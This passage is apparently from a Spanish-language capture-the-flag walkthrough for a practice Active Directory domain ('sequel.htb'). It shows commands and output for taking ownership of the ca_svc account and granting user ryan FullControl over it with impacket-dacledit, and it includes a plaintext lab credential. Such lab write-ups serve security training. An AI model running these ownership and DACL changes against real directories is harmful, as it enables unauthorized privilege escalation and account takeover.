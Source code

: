 ```bash
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!

```

### Explicacion del comando 

- `-action write`: Indica que queremos modificar (escribir) el propietario del objeto.
- `-new-owner ryan`: El nuevo propietario será el usuario `ryan`.
- `-target ca_svc`: El objeto sobre el que queremos tomar propiedad es el usuario `ca_svc`.
- `sequel.htb/ryan:WqSZAF6CysDQbGb3`: Credenciales válidas en formato `[dominio]/[usuario]:[contraseña]`.

Hemos tomado propiedad de forma correcta sobre el usuario ca_svc.

##### Otorgarnos control total sobre `ca_svc` con `impacket-dacledit`

Una vez que nos hemos convertido en **propietarios** del objeto `ca_svc`, ahora podemos **modificar su DACL** para otorgarnos **permisos completos**. Esto lo vamos a hacer usando la herramienta `impacket-dacledit`, que permite editar la DACL de un objeto en Active Directory.

Ejecutamos el siguiente comando para darnos control total sobre `ca_svc`

```bash
──(kali㉿kali)-[~]
└─$ impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
/usr/share/doc/python3-impacket/examples/dacledit.py:101: SyntaxWarning: invalid escape sequence '\V'
  'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
/usr/share/doc/python3-impacket/examples/dacledit.py:110: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-554': 'BUILTIN\Pre-Windows 2000 Compatible Access',
/usr/share/doc/python3-impacket/examples/dacledit.py:111: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-555': 'BUILTIN\Remote Desktop Users',
/usr/share/doc/python3-impacket/examples/dacledit.py:112: SyntaxWarning: invalid escape sequence '\I'
  'S-1-5-32-557': 'BUILTIN\Incoming Forest Trust Builders',
/usr/share/doc/python3-impacket/examples/dacledit.py:114: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-558': 'BUILTIN\Performance Monitor Users',
/usr/share/doc/python3-impacket/examples/dacledit.py:115: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-559': 'BUILTIN\Performance Log Users',
/usr/share/doc/python3-impacket/examples/dacledit.py:116: SyntaxWarning: invalid escape sequence '\W'
  'S-1-5-32-560': 'BUILTIN\Windows Authorization Access Group',
/usr/share/doc/python3-impacket/examples/dacledit.py:117: SyntaxWarning: invalid escape sequence '\T'
  'S-1-5-32-561': 'BUILTIN\Terminal Server License Servers',
/usr/share/doc/python3-impacket/examples/dacledit.py:118: SyntaxWarning: invalid escape sequence '\D'
  'S-1-5-32-562': 'BUILTIN\Distributed COM Users',
/usr/share/doc/python3-impacket/examples/dacledit.py:119: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-569': 'BUILTIN\Cryptographic Operators',
/usr/share/doc/python3-impacket/examples/dacledit.py:120: SyntaxWarning: invalid escape sequence '\E'
  'S-1-5-32-573': 'BUILTIN\Event Log Readers',
/usr/share/doc/python3-impacket/examples/dacledit.py:121: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-574': 'BUILTIN\Certificate Service DCOM Access',
```